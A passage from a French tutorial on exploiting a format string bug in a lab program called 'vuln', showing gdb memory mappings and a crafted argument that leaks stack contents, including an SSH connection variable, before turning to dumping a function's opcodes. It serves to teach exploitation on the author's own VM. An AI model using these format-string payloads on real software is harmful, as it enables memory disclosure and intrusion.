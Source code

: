 Juste après le caractère `B` (ligne `00000090`) on retrouve un octet `02` qui correspond bien à la valeur de `b`.  

L'exemple n'est pas terrible car le format `%s` s'arrête au premier octet nul ce qui explique que l'on ne voit pas plus que le 2 dans ce cas précis.  

Mais en sachant que la base de la stack est à `0xc0000000` comme vérifié avec *gdb* :  

```nasm
oj@hell:~$ gdb -q ./vuln
Reading symbols from /home/oj/vuln...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484a8
(gdb) r
Starting program: /home/oj/vuln 

Breakpoint 1, 0x080484a8 in main ()
(gdb) info proc mappings
process 30986
Mapped address spaces:

  Start Addr   End Addr       Size     Offset objfile
   0x8048000  0x8049000     0x1000          0        /home/oj/vuln
   0x8049000  0x804a000     0x1000          0        /home/oj/vuln
  0xb7e75000 0xb7e76000     0x1000          0        
  0xb7e76000 0xb7fd3000   0x15d000          0        /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
  0xb7fd3000 0xb7fd4000     0x1000   0x15d000        /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
  0xb7fd4000 0xb7fd6000     0x2000   0x15d000        /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
  0xb7fd6000 0xb7fd7000     0x1000   0x15f000        /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
  0xb7fd7000 0xb7fda000     0x3000          0        
  0xb7fdf000 0xb7fe1000     0x2000          0        
  0xb7fe1000 0xb7fe2000     0x1000          0           [vdso]
  0xb7fe2000 0xb7ffe000    0x1c000          0          /lib/i386-linux-gnu/ld-2.13.so
  0xb7ffe000 0xb7fff000     0x1000    0x1b000          /lib/i386-linux-gnu/ld-2.13.so
  0xb7fff000 0xb8000000     0x1000    0x1c000          /lib/i386-linux-gnu/ld-2.13.so
  0xbffdf000 0xc0000000    0x21000          0           [stack]
```

On peut fouiller vers la base la pile et essayer de trouver des variables d'environnement :  

```console
oj@hell:~$ ./vuln $'\xbb\xff\xff\xbf'B%130\$08s
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
����BSSH_CONNECTION=192.168.1.3 56445 192.168.1.29 22
#end  a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```

Ici on voit une variable décrivant la connexion SSH en cours sur le système (de la machine hôte vers la VM).  

Mais il est aussi possible de lire dans n'importe quel segment de données du moment que ce dernier est accessible en lecture, comme le segment de code. Ici je passe comme adresse celle de la fonction `secret` ce qui me permet d'obtenir les opcodes des instructions assembleur :  
